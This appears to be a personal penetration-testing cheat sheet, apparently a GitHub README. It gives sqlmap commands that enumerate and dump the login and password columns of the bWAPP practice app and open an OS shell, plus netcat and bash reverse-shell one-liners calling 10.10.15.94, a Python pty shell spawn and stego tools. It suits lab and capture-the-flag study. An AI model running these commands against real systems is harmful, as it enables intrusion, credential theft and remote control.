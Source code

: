 # Infosec
My InfoSec Cheat sheet and stuff


------
scan local network
-----

arp-scan --local

------

sqlmap 

------

OK so we've got SQLMap, but how do we release it upon our target?
INJECTION TESTING
Gathering commonly needed elements
Cookies
POST data (if data not in URL)
sqlmap --url="http://bee-box/bWAPP/slqi_1.php?title=iron" --dbs
--dbs info is found using the -hh option of sqlmap
Add --cookie="security_level=0;PHPSESSID=xxxxxx"
the bwapp app requires it
If POST then add --data="title=iron&action=search"
Input data and parameters are usually found in the request BODY
So we have a good injection point and even enumerated the name of the database,
but how do we get at the data?
Enumerate the Table names
sqlmap --url="http://bee-box/bWAPP/sqli_1.php?title=iron" -D bWAPP --tables
Enumerate Columns
sqlmap --url="http://bee-box/bWAPP/sqli_1.php?title=iron" -D bWAPP -T users --
columns
Dump database data from table 'users' from columns 'login' and 'password'
sqlmap --url="http://bee-box/bWAPP/sqli_1.php?title=iron" -D bWAPP -T users -C
login,password --dump
Any other useful tricks?
How about COMMAND EXECUTION?
sqlmap --url="http://bee-box/bWAPP/sqli_1.php?title=iron" -D bWAPP --os-shell


----------

nc shell

----------

nc -nvlp 9999 (attacker)

nc -nv -e /bin/bash IP PORT  OR  bash -c "bash -i >& /dev/tcp/10.10.15.94/443 0>&1"


---

exif 
exiftool 
steghide info


---
SPAWN PY SHELL

import pty
pty.spawn("/bin/sh")


-
# start quick python http server 
python3 -m http.server 80080
